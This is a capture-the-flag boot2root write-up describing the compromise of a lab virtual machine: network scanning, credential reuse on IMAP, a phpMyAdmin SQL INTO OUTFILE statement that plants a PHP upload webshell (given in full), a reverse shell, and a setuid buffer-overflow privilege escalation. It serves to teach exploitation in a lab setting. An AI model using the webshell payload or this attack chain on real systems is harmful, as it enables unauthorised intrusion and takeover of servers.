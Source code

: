 <img src="https://i.redd.it/8g48e3pqehx11.png" height="500px" width="1500px"/>
# boot2root writeup

After running the machine and configuring the networking to bridged with en0 interface, we ran a ping sweep to find the ip address.
```
$ bash misc/psweep.sh
64 bytes from 10.12.176.109: icmp_seq=0 ttl=64 time=2.276 ms
64 bytes from 10.12.176.125: icmp_seq=0 ttl=64 time=0.555 ms
64 bytes from 10.12.176.141: icmp_seq=0 ttl=64 time=0.955 ms
```

Running an nmap scan on the machine results in multiple open ports
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

Inspecting https we find two interesting routes /phpmyadmin and /forum, while browsing in the forum we find an interesting blog about troubleshooting sshd, and the blog author shared the error logs.
We find a valid password for user lmezard in the forum.

These credentials are only working on the imapd dovecot server, after logging in the the mailbox of laurie@borntosec.net we find root credentials to phpmyadmin,
giving us access to /phpmyadmin.

`openssl s_client -connect ip:993
a LOGIN user password
a LIST "" "*"
a SELECT INBOX.Sent
a FETCH 2 BODY.PEEK[]
`

With the help of phpmyadmin we can upload a php webshell that gives us arbitrary command execution.

`SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE '/var/www/forum/templates_c/upload.php';`

then we can upload a reverse shell you can find it in scripts

We run a listener, and execute a reverse shell payload through our webshell this is how we get a shell with user www-data.

We find a LOOKATME containing the credentials of user lmezard, we switch user with command su to lmezard, in it's home directory we find `fun` challenge.

We get our first challenge named `fun` solving it will give us ssh password of user laurie.

After solving the fun challenge we log in through ssh with laurie, and find another challenge a binary named bomb containing six phases that require a password to not explode, this challenge will give us access to user thor.

Thor contains a turtle graphics challenge, giving us a large file containing turtle commands for drawing the password, the password of user zaz

Finally zaz contains a set-uid binary with the owner root, the binary is vulnerable to a stack buffer overflow, we will inject shellcode that execute a shell and we get a root shell.
